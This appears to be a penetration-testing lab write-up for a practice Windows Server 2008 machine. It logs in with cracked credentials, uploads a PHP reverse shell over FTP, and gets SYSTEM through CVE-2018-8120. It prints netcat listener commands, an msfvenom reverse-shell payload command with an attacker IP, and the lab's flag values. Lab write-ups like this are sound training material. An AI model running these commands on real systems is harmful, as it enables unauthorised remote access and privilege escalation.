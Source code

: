 ![[Pasted image 20241025203051.png]]
## Port 242 - HTTP (Apache/2.2.21)
- Navigated to `http://192.168.171.46:242` and identified web login
![[Pasted image 20241025201023.png]]
- Attempted password guessing with `admin:admin`, `root:root`, `admin:password` - unsuccessful.
- Attempted login with cracked credentials `offsec:elite` and accessed page
![[Pasted image 20241025203334.png]]
## Port 3389 - RDP 
- Attempted login with cracked credentials `offsec:elite` - unsuccessful
![[Pasted image 20241025203610.png]]

---
# Exploitation
- Created `shell.php` with reverse shell back to Kali host
![[Pasted image 20241025204143.png]]
- Ran `put shell.php` on `ftp` service as `admin` to upload reverse shell
![[Pasted image 20241025204306.png]]
- Started netcat listener on port `1234` with `nc -nvlp 1234` then used web browser to navigate to `http://192.168.171.46:242/shell.php`, and received reverse shell
![[Pasted image 20241025204007.png]]
---
# Lateral Movement to user
## Local Enumeration
- Navigated to `C:\Users\apache\Desktop` and ran `type local.txt` to print `98e8a3c01c8d7944c46cf806438ed074`
![[Pasted image 20241025204654.png]]
- Ran `systeminfo` to get host details, and identified OS Name `Microsoftr Windows Serverr 2008 Standard` with system-type `x86` architecture - OS is vulnerable to CVE-2018-8120
![[Pasted image 20241025220625.png]]
---
# Privilege Escalation
## CVE-2018-8120
 Identified Windows Kernel Exploit for CVE-2018-8120 from https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120 and downloaded `x86.exe` to Kali host
- Ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.199 LPORT=80 -f exe > reverse.exe`
- Uploaded `x86.exe` & `reverse.exe` to target via `FTP` while logged in as `admin:admin`
- Started netcat listener on port `80`, then returned to reverse shell and ran `x86.exe reverse.exe`
![[Pasted image 20241026183414.png]]
- Checked reverse shell and found incoming connection
![[Pasted image 20241026183445.png]]
- Navigated to `C:\Users\Administrator\Desktop` and ran `type proof.txt` to print `fb1863d6c3980a8502ac04794d08b5a4`

---